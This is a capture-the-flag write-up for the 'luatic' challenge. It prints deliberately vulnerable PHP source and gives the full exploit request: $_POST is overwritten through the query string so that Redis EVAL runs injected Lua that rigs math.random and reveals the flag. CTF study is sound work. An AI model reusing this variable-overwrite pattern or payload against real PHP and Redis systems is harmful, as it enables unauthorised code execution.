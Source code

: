 # Description
Author: [@orange_8361](https://twitter.com/orange_8361)
```
Win the jackpot!
54.250.242.183
```
# luatic.php
```php
<?php
    /* Author: Orange Tsai(@orange_8361) */
    include "config.php";

    foreach($_REQUEST as $k=>$v) {
        if( strlen($k) > 0 && preg_match('/^(FLAG|MY_|TEST_|GLOBALS)/i',$k)  )
            exit('Shame on you');
    }

    foreach(Array('_GET','_POST') as $request) {
        foreach($$request as $k => $v) ${$k} = str_replace(str_split("[]{}=.'\""), "", $v);
    }

    if (strlen($token) == 0) highlight_file(__FILE__) and exit();
    if (!preg_match('/^[a-f0-9-]{36}$/', $token)) die('Shame on you');

    $guess = (int)$guess;
    if ($guess == 0) die('Shame on you');

    // Check team token
    $status = check_team_redis_status($token);
    if ($status == "Invalid token") die('Invalid token');
    if (strlen($status) == 0 || $status == 'Stopped') die('Start Redis first');

    // Get team redis port
    $port = get_team_redis_port($token);
    if ((int)$port < 1024) die('Try again');
    
    // Connect, we rename insecure commands
    // rename-command CONFIG ""
    // rename-command SCRIPT ""
    // rename-command MODULE ""
    // rename-command SLAVEOF ""
    // rename-command REPLICAOF ""
    // rename-command SET $MY_SET_COMMAND
    $redis = new Redis();
    $redis->connect("127.0.0.1", $port);
    if (!$redis->auth($token)) die('Auth fail');

    // Check availability
    $redis->rawCommand($MY_SET_COMMAND, $TEST_KEY, $TEST_VALUE);
    if ($redis->get($TEST_KEY) !== $TEST_VALUE) die('Something Wrong?');

    // Lottery!
    $LUA_LOTTERY = "math.randomseed(ARGV[1]) for i=0, ARGV[2] do math.random() end return math.random(2^31-1)";
    $seed  = random_int(0, 0xffffffff / 2);
    $count = random_int(5, 10);
    $result = $redis->eval($LUA_LOTTERY, array($seed, $count));

    sleep(3); // Slow down...
    if ((int)$result === $guess)
        die("Congratulations, the flag is $FLAG");
    die(":(");
```
# Team token
```
Token: 7a70261c-xxxx-xxxx-xxxx-7a8a84c655f1
```
# Timeline
- Setup Docker container (of course :v)
- Clear all filters/tests/replacements to find the main solution to bypass lua `math.random` function and win the jackpot
- Bypass `preg_match('/^(FLAG|MY_|TEST_|GLOBALS)/i',$k)` test
- Bypass `str_replace(str_split("[]{}=.'\""), "", $v)` replacement
- Won the jackpot

# Final works
- To win the jackpot, we want to reset the `math.random` function by `math.random = function () returns 123 end`
so `math.random()` will return `123`, equal to `guess` we have sent
- To bypass `preg_match('/^(FLAG|MY_|TEST_|GLOBALS)/i',$k)` test, we use `/luatic.php?token=TEAM_TOKEN&guess=123&_POST[MY_SET_COMMAND]=set&_POST[TEST_KEY]=1&_POST[TEST_VALUE]=1`
so `$_POST` variable will be overwritten to `['MY_SET_COMMAND' => 'set', 'TEST_KEY' => '1', 'TEST_VALUE' => '1']`
and will be extracted to php variables
- To bypass `str_replace(str_split("[]{}=.'\""), "", $v)` replacement, we use `for k, v in pairs(math) do rawset(math, k, function() return 123 end) end` to reset `math.random` function
- Final payload: `/luatic.php?token=TEAM_TOKEN&guess=123&_POST[MY_SET_COMMAND]=eval&_POST[TEST_KEY]=for k, v in pairs(math) do rawset(math, k, function() return 123 end) end&_POST[TEST_VALUE]=0`

and got the Flag: `hitcon{Lua^H Red1s 1s m4g1c!!!}`

Please follow for more informations:
- https://github.com/orangetw/My-CTF-Web-Challenges#luatic
- https://redis.io/commands/eval

